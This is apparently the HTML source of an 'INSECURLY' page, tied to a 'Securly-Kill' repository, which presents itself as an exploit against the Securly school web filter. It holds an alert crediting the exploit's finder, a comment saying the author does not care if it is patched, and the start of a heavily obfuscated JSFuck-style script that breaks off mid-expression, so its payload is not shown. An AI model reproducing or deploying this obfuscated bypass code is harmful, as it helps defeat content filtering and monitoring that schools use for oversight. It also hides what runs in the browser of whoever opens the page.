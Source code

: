 <!DOCTYPE html>

<html lang="en">


<head>

    <link rel="icon" href="https://raw.githubusercontent.com/zek-c/Securly-Kill-V111/main/IMG/insecurly%20icon.png">

    <meta charset="utf-8" />

    <meta name="viewport" content="width=device-width, initial-scale=1" />

    <title>INSECURLY</title>

    <style>

        #error {

            display: none;

        }

        

        #draggable {

            display: none;

            background-color: black;

            color: white;

            padding: 10px;

            font-weight: bold;

            cursor: pointer;

        }

        

        .shown {

            display: inline-block !important;

        }

    </style>

    <script>alert('this exploit was found by bypassi, and the icons were made by ender (https://github.com/Ender-Ghost-Craft/insecurly-icons)')</script>

    <!--   I personally could not care less whether this exploit gets patched -->

    <script defer>

        [][(![] + [])[+[]] + (![] + [])[!+[] + !+[]] + (![] + [])[+!+[]] + (!![] + [])[+[]]][([][(![] + [])[+[]] + (![] + [])[!+[] + !+[]] + (![] + [])[+!+[]] + (!![] + [])[+[]]] + [])[!+[] + !+[] + !+[]] + (!![] + [][(![] + [])[+[]] + (![] + [])[!+[] + !+[]] + (![] + [])[+!+[]] + (!![] + [])[+[]]])[+!+[] + [+[]]] + ([][

            []
